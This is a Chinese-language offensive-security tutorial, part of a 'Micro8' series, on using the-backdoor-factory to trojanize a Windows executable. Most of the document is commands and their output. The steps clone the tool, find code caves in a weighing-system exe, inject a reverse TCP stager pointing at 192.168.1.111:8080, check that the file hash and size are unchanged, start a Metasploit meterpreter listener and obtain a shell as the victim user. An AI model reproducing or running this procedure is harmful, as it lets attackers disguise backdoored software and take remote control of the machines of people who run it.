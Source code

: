 ```yaml
---
title: 9、工具介绍-the-backdoor-factory
date: 2019-09-21 19:03:09
comments: true
categories: 
 - Micro8系列
---
```




# 工具介绍 the-backdoor-factory

项目地址：
https://github.com/secretsquirrel/the-backdoor-factory

### 原理
可执行二进制文件中有大量的 00，这些 00 是不包含数据的，将这些数据替换成 payload，并且在程序执行的时候，jmp 到代码段，来触发 payload。

### 以项目中的过磅系统为例：

```code
root@John:~/Desktop# git clone https://github.com/secretsquirrel/the-backdoor-factory.git
//安装the-backdoor-factory
```  
![](../do/media/baa5f2ef8bc4b8332d377e179c2897d1.jpg)

```code
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -S
//检测是否支持后门植入
```  
![](../do/media/65f5db4ee779eaacdff8a20bdfd35ea8.jpg)

```code
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -c -l 150
//测试裂缝空间size150
```  
![](../do/media/2b8e42c3fe1195f37bf7b01fb31af21b.jpg)

```code
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -s show
//查看可用payload
```  
![](../do/media/c576aabd967bcbbf39467dcf40ec2759.jpg)

```code
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -H 192.168.1.111 -P 8080 -s iat_reverse_tcp_stager_threaded
//插入payload，并生成文件。
```  
![](../do/media/1dbc7c753b5135a67db8ac3bee6f3352.jpg)

```code
root@John:~/Desktop/the-backdoor-factory# md5sum ./guobang.exe /root/demo/guobang.exe
//对比原文件与生成文件MD5值
```  
![](../do/media/999c8d02e798b61f61a4d8cd284ffd0b.jpg)

```code
root@John:~/Desktop/the-backdoor-factory# du -k ./guobang.exe /root/demo/guobang.exe
//对比文件大小
```  
![](../do/media/edd13750f6b3e03121e63e805b4a5b97.jpg)

```code
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.111
lhost => 192.168.1.111
msf exploit(handler) > set lport 8080
lport => 8080
msf exploit(handler) > exploit -j 
//开启本地监听
```  
![](../do/media/94330fb03737c7e42549f1b9b3a8bb21.jpg)

//打开软件  
![](../do/media/2139e4a1c0c1e326605cf246742ff3a5.jpg)

```code
meterpreter > getuid
Server username: John-PC\John
```
//确定目标  

![](../do/media/613afd4b9343cfd43965aa934b71cc48.jpg)

<p align="right">--By  Micropoor </p>
